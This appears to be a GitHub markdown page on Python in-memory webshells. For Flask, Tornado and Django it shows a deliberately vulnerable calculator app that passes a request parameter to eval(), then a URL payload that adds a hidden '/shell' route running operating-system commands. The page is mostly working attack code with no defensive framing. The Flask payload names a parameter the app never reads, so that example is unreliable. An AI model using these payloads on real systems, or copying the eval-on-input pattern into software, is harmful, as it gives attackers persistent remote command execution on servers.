




### Flask

```bash
>>> importlib.metadata.version('flask')
'3.0.3'
```

#### source code

```python
from flask import Flask, request

app = Flask(__name__)

@app.route('/')
def calc():
    result = eval(request.args.get('expression'))
    template = '<h2>result: %s!</h2>' % result
    return template

if __name__ == "__main__":
    app.run(debug=True)
```

#### payload

```python
http://127.0.0.1:5000/?name=app.url_map.add(app.url_rule_class('/shell', methods=['GET'],endpoint='shell'))

http://127.0.0.1:5000/?name=app.view_functions.update({'shell': lambda:__import__('os').popen(app.request_context.__globals__['request_ctx'].request.args.get('cmd', 'whoami')).read()})
```

#### result



### Tornado

```bash
>>> importlib.metadata.version('tornado')
'6.4'
```

#### source code

```python
import tornado

class MainHandler(tornado.web.RequestHandler):
    def get(self):
        result = eval(self.get_argument('expression'))
        self.write('<h2>result: %s!</h2>' % result)

def make_app():
    return tornado.web.Application([
        (r"/", MainHandler),
    ], debug=True, autoreload=True)

if __name__ == '__main__':
    app = make_app()
    app.listen(5000)
    print("listen: 5000")
    tornado.ioloop.IOLoop.instance().start()
```

#### payload

```python
http://127.0.0.1:5000/?expression=self.application.add_handlers('.*', [('/shell', type('ShellHandler', (tornado.web.RequestHandler,), {'get': lambda self: self.write(__import__('os').popen(self.get_argument('cmd', 'id')).read())}))])
```

#### result





### Django

```bash
>>> django.VERSION
(5, 0, 6, 'final', 0)
```

#### source code

```python
# memshell/urls.py
from django.contrib import admin
from django.urls import path
from .views import calc

urlpatterns = [
    path('admin/', admin.site.urls),
    path('calc', calc)
]

# memshell/views.py
from django.http import HttpResponse

def calc(request):
    result = eval(request.GET.get('expression'))
    return HttpResponse('<h2>result: %s!</h2>' % result)
```

#### payload

```python
http://localhost:8000/calc?expression=__import__(request.get_port.__globals__["settings"].ROOT_URLCONF).urls.urlpatterns.append(__import__('django').urls.path('shell',lambda request: __import__('django').http.HttpResponse(__import__('os').popen(request.GET.get('cmd','id')).read())))
```

#### result

